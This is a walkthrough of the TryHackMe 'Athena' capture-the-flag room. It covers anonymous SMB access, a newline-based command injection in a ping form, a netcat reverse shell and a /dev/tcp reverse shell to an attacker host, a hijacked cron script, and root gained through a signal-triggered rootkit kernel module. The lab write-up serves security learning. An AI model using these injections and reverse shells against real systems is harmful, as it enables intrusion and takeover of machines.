

# Athena

**Difficulty:** 🟡 Medium · **Room:** [TryHackMe ↗](https://tryhackme.com/room/4th3n4)

Are you capable of mastering the entire system and exploiting all vulnerabilities?

---

## Reconnaissance

I started with a full TCP port scan to see the whole attack surface:

```bash
sudo nmap -p- MACHINE_IP
```

**Results:**

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Four ports were open: SSH, HTTP, and two SMB-related ports (NetBIOS and Microsoft-DS) — the SMB pair immediately stood out as a promising early lead.

Next, I ran a more detailed scan against those ports with version detection and the default NSE scripts:

```bash
nmap MACHINE_IP -p 22,80,139,445 -sV -sC
```

**Key results:**


The interesting bit here was that **SMB message signing was enabled but not required**. In my experience that's often a sign the server also allows anonymous (null) sessions, so it was worth checking right away.

---

## SMB Enumeration

Sure enough, a null-session listing confirmed anonymous access was allowed:

```bash
smbclient -L //MACHINE_IP -N
```

```
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk
        IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
```

I connected to the `public` share without any credentials:

```bash
smbclient //MACHINE_IP/public -N
```

Only one file was sitting there:

```
msg_for_administrator.txt
```

I grabbed it with `get` and had a read:

```text
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```

---

## Initial Access

Heading to the disclosed path turned up an internal tool for pinging IP addresses:

```
http://TARGET_IP/myrouterpanel
```


Submitting an IP address returned a `.php` page with the ping output.


The output looked exactly like raw shell command results, which strongly suggested the input was being fed straight into a system call.

The app filtered out the obvious command-separator characters (`;`, `&`, `|`), so straightforward injection attempts got blocked. But swapping in a URL-encoded newline (`%0A`) instead of a separator did the trick:

```
ip=%0Awhoami
```

Intercepting and tweaking the request in **Burp Suite** confirmed the injected command actually ran — an **OS command injection** in the `ip` parameter that the character blacklist simply hadn't accounted for.


From there, I used the injection to pop a reverse shell:

```bash
nc -c sh ATTACKERIP 4444
```

With a listener already running:

```bash
nc -lvnp 4444
```


That gave me an interactive shell as the web server user, `www-data`.

---

## Privilege Escalation — athena

To find a way toward the `athena` account, I looked for anything owned by that user:

```bash
find / -user 'athena' 2>/dev/null
```

Two locations came back:

```
/home/athena
/usr/share/backup
```

`/home/athena` was off-limits, but `/usr/share/backup` was accessible and held a script owned by `athena`:

```bash
#!/bin/bash
backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"
cp -r /home/athena/notes/* "$backup_dir_zip"
zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
cp -r /home/athena/* '/usr/share/backup'
```

The script itself belonged to `athena`, but the directory permissions around it let `www-data` modify it anyway — which is really the key detail here.

I ran **pspy64** to check whether anything was actually running this script on a schedule, and it was — every minute or so, consistent with a cron job firing as `athena`:

```
2026/08/03 12:47:55 CMD: UID=1001 PID=1212 | /bin/bash /usr/share/backup/backup.sh
2026/08/03 12:48:55 CMD: UID=1001 PID=1230 | /bin/bash /usr/share/backup/backup.sh
```

Since I could write to it, I just appended a reverse shell one-liner:

```bash
echo "/bin/sh -i >& /dev/tcp/ATTACKER_IP/8888 0>&1" >> /usr/share/backup/backup.sh
```

A minute or so later, cron fired the script off as `athena`, and I had a shell — along with the **user flag**.


---

## Privilege Escalation — root

As `athena`, I checked what I was allowed to run with `sudo`:

```bash
sudo -l
```

```
User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```

So I could load a custom kernel module, `venom.ko`, as root with no password required — which is about as strong a hint as you can get that the module itself is the vulnerability.

Running `modinfo` on it pointed to the author:

```bash
modinfo venom.ko
```

```
author: m0nad
```

A quick search for that name turned up a public GitHub repo for a known Linux Kernel Module (LKM) rootkit — one documented to hand root to any process that sends it the right signal.


The public write-up said to send signal `64` to a target PID to trigger it. That didn't work:


To figure out the actual value, I pulled the module apart in **Ghidra**. That's where I found a hidden `hacked_kill` function hooked into the kernel's signal handling:


Turns out it was checking for signal `0x39` (that's `57` in decimal), not `64`, before calling its embedded `give_root()` routine.

Armed with the right signal, I sent it to my own shell's PID:

```bash
kill -57 $$
```

And that was it — the module handed my shell root, wrapping up the box.



---

## Kill Chain

This box was really a story of one small leak enabling the next. It started with **SMB signing that wasn't enforced**, which opened the door to an anonymous session and a note that was never meant to leave the server. That note pointed straight at a hidden ping utility, and a gap in its input filter (blocking separators but not newlines) turned it into full command injection — enough for a shell as `www-data`.

From there, sloppy permissions did the rest of the work: a backup script *owned* by `athena` but *writable* by the web user let me ride a cron job straight into that account. And the final jump to root didn't come from a misconfiguration at all, but from a deliberately backdoored kernel module — one line of research away from working exactly as its author intended.

`Anonymous SMB → www-data → athena → root`

- **Initial Access:** Anonymous SMB access → information disclosure → command injection via `/myrouterpanel` → shell as `www-data`
- **Privilege Escalation:** Group/world-writable cron script (`backup.sh`) → shell as `athena`
- **Final Escalation:** Sudo-permitted, backdoored kernel module (`venom.ko`) → signal-triggered `give_root()` → root

If there's one theme here, it's **trust in places it didn't belong** — an SMB share trusted with an internal note, a cron script trusted despite loose permissions, and a kernel module trusted despite being sourced from a known rootkit. Each one on its own was a small crack, but together they added up to full compromise.

> Thanks for reading!